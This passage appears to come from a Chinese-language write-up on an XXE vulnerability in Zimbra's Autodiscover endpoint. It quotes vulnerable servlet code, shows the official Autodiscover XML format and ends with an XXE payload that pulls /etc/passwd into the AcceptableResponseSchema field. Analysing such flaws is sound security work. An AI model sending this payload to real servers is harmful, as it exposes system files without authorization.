 ```php
      return;
    }
    if ((responseSchema != null) && (responseSchema.length() > 0)) {
         //当responseSchema不符合标准的时候，就会爆出错误，并将responseSchema回显，就造成了XXE漏洞
      if ((!responseSchema.equals("http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006")) && (!responseSchema.equals("http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a")))
      {
        log.warn("Requested response schema not available " + responseSchema);
        sendError(resp, 503, "Requested response schema not available " + responseSchema);
        return;
      }
}
```

3、[https://wiki.zimbra.com/wiki/Autodiscover官网给出的Autodiscover的写法](https://wiki.zimbra.com/wiki/Autodiscover%E5%AE%98%E7%BD%91%E7%BB%99%E5%87%BA%E7%9A%84Autodiscover%E7%9A%84%E5%86%99%E6%B3%95)，

```php
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/responseschema/2006" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<Response xmlns="http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006">
<Culture>en:en</Culture>
<User>
<DisplayName>admin</DisplayName>
<EMailAddress>admin@zimbra.io</EMailAddress>
</User>
<Action>
<Settings>
<Server>
<Type>MobileSync</Type>
<Url>https://zimbra86.zimbra.io:8443/Microsoft-Server-ActiveSync</Url>
<Name>https://zimbra86.zimbra.io:8443/Microsoft-Server-ActiveSync</Name>
</Server>
</Settings>
</Action>
</Response>
</Autodiscover>
```

我们可以写出如下payload，利用xxe漏洞

```php

<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
      <EMailAddress>123</EMailAddress>
      <AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>
    </Request>
```
